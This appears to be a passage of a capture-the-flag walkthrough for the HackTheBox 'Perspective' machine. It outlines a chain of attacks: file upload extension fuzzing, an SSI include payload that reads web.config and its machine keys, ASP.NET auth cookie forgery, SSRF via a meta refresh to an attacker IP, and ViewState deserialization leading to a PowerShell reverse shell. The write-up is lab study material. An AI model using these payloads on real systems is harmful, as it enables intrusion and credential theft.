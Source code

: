 ### Phase 2: File Upload Exploitation and Local File Inclusion

#### 3. File Upload Vulnerability Testing
- As logged-in user, upload products with images
- Fuzz allowed file extensions using ffuf on the upload request, identifying extensions like .php4, .shtml, etc.
- Attempt PHP upload fails to execute, but .shtml allows Server-Side Includes (SSI)
- **Technique**: Extension fuzzing with ffuf; SSI testing with various file types

#### 4. Local File Inclusion (LFI) via SSI in .shtml
- Upload .shtml file with SSI directive (`<!--#include file="web.config"-->` or similar) to read web.config
- Traverse directories (e.g., `../web.config`) to read root web.config
- Extract key info: Machine key (validationKey and decryptionKey), encrypted viewStateUserKey, MSSQL connection string, and reference to Secure Password Service on localhost:8000
- **Technique**: Server-Side Includes (SSI) exploitation for Local File Inclusion; path traversal via SSI directives

### Phase 3: ASP.NET Authentication Bypass and Admin Access

#### 5. Forge Admin Cookie (.ASPXAUTH)
- Use machine key from web.config to decrypt an existing .ASPXAUTH cookie (using custom .NET tool from GitHub: AFNetCryptoTools)
- Modify decrypted ticket to admin@perspective.htb, re-encrypt, and set as cookie to gain admin access
- **Technique**: ASP.NET Forms Authentication bypass via machine key abuse; cookie manipulation with AFNetCryptoTools

#### 6. SSRF via PDF Generation in Admin Panel
- As admin, load user data and generate PDF
- Inject HTML (e.g., `<meta http-equiv="refresh" content="0;url=http://[ATTACKER-IP]:8000/pwned.html">`) into product description to trigger SSRF during PDF rendering (using headless Chrome)
- Redirect to localhost:8000 to access Secure Password Service API
- Fetch `/swagger/v1/swagger.json` to understand API: `/encrypt` (GET) and `/decrypt` (POST) endpoints
- **Technique**: Server-Side Request Forgery (SSRF) via HTML injection in PDF generation; API discovery through Swagger documentation

#### 7. Decrypt viewStateUserKey via CSRF in SSRF
- Craft HTML form in redirected page to POST to `http://127.0.0.1:8000/decrypt` with `ciphertext=encoded_viewStateUserKey`
- Use JavaScript to auto-submit form (bypassing CSRF protections)
- Generate PDF to trigger, revealing decrypted viewStateUserKey ("saltySaltyViewState3")
- **Technique**: Cross-Site Request Forgery (CSRF) via SSRF; automatic form submission with JavaScript

### Phase 4: Remote Code Execution via ViewState Deserialization

#### 8. RCE via Malicious ViewState Deserialization
- Use ysoserial.net with ViewState plugin, TypeConfuseDelegate gadget, machine key, decryption/validation algorithms, viewStateUserKey, and generator from a request
- Command: `ping [ATTACKER-IP]` (test), then PowerShell reverse shell (encoded base64)
- Intercept request, replace `__VIEWSTATE` with malicious blob to get RCE as webuser
- **Technique**: .NET deserialization attack via malicious ViewState; ysoserial.net with TypeConfuseDelegate gadget
